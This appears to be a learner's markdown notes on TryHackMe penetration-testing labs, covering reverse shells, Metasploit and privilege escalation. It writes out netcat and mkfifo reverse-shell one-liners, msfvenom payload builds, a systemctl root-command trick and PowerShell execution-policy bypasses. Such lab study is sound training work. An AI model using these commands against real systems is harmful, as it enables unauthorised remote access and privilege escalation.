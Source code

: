 # R

* Remember for web/general/security
* .todo: metasploit dns
* .todo: web
* web general | terminology | URL may have to be moved
* explose hacking_process

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> hint/notes
=> network

* https://tryhackme.com/room/introtoshells
* If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
* nc ip port -e /bin/bash (rev shell)
* nc -lvnp port -e /bin/bash (bind shell)
* this is not included in most versions of netcat
* `mkfifo /tmp/f; nc XXX < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` (listener for our wxw shell)
* https://tryhackme.com/room/introtoshells (Windows)
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional
* `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
* staged reverse shell payloads and stageless
* exploit/multi/handler
  * It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads
  * `set PAYLOAD X`
  * `exploit -j`
* socat is a sort of ncat+more, but not installed by default, and harder to learn.
  * Read again the section: https://tryhackme.com/room/introtoshells
  * Can encrypt, may bypass an IDS: https://tryhackme.com/room/introtoshells
* Socat: transfer the socat binary
* Reverse shells/... note lasty

<hr>

## Overconfidence

--- https://tryhackme.com/room/rrootme

* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4455 -o revshell.php`
* exploit/multi/handler
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4455 -o revshell2.php`
* `msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4455 -o revshell3.php5`
* `sudo bash -c "id"`
* https://www.revshells.com/
* TL;DR. Nothing explained to improve the shell worked. Could not run python commands, the shell was crashing. Had to use a web shell to run python commands. The meterpreter didn't work "as expected". The reverse tcp worked but it wasn't a good experience.
* writeups

--- https://tryhackme.com/room/vulnversity

* Capture a request uploading a file
* Intruder to test which filetype is not blocked
* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o mrevshell.phtml`
  * No one can make it work!!!
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o mrevshell_php_rtcp.phtml`

```bash
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```

* `git clone https://github.com/brightio/penelope.git`
* `python penelope.py`

--- https://tryhackme.com/room/basicpentestingjt
--- https://tryhackme.com/room/kenobi

* `smbclient //10.10.12.68/Anonymous -U Anonymous/`
* From what I understood, on port 111, there is rcpbind that can indicate which port is providing a service given a protocol number
* `sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.12.68`
* There was a failure in ProFtpd  that allowed users to move files from a non-mounted path to the mounted path. Could steal id_rsa.

--- https://tryhackme.com/room/steelmountain

* use meterpreter upload to upload the winPEAS
* `shell`
* `.\winPEASany_ofs.exe`
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `powershell_shell`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn